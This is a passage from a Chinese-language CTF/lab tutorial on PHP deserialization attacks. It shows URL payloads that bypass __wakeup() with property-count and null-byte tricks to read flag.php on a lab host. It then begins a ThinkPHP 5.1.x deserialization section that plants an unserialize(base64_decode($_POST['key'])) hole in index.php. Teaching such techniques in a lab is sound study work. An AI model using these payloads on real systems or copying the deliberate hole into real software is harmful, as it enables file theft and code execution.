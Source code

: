 由于存在

```php
function __wakeup(){
$this->file='ctf.php';
```

> 这个魔术方法会使 `flag.php` 变回 `ctf.php`
>
> 因此要绕过 `__wakeup()`

修改 payload 的属性的数量为 2（其实只有一个属性）导致异常，绕过 `__wakeup()`

```php
http://192.168.1.76/ctf/ctf.php?file=O:6:"xuegod":2:{s:12:"xuegodfile";s:8:"flag.php";}
```

> 魔术方法不触发，但是代码依然执行
>
> 提交以上 payload 失败

分析 payload ，发现属性 `xuegodfile` 的长度为 12 ，实际只有 10，因此要在 `xuegodfile` 增加两个空白字符 `%00`

构造 payload

```php
http://192.168.1.76/ctf/ctf.php?file=O:6:"xuegod":2:{s:12:"%00xuegod%00file";s:8:"flag.php";}
```

> 注意添加的位置，要在 `xuegod` 两端加

提交 payload

> 成功读取到 `flag.php`

或者用 `\00` ，此时的 `s` 要大写 `S`，表示为二进制

```php
http://192.168.1.76/ctf/ctf.php?file=O:6:"xuegod":2:{S:12:"\00xuegod\00file";s:8:"flag.php";}
```

## 4 ThinkPHP 5.1.X 反序列化任意代码执行

>ThinkPHP 是一个免费开源的，快速、简单的面向对象的 轻量级 PHP 开发框架 ，创立于 2006 年初，遵循 Apache2 开源协议发布，是为了敏捷 WEB 应用开发和简化企业应用开发而诞生的。ThinkPHP 从诞生以来一直秉承简洁实用的设计原则，在保持出色的性能和至简的代码的同时，也注重易用性。并且拥有众多的原创功能和特性，在社区团队的积极参与下，在易用性、扩展性和性能方面不断优化和改进，已经成长为国内最领先和最具影响力的 WEB 应用开发框架，众多的典型案例确保可以稳定用于商业以及门户级的开发。

浏览器访问

> http://192.168.1.102/think/public/
>
> 代码定义通过 POST 方式接受 key 变量，经过 base64 解码之后进行反序列化。

### 4.1 任意文件删除

### 4.1.1 准备

打开 `C:\phpstudy_pro\WWW\think\public\index.php` ，在末端添加

```
$s = base64_decode($_POST['key']);
unserialize($s);
```
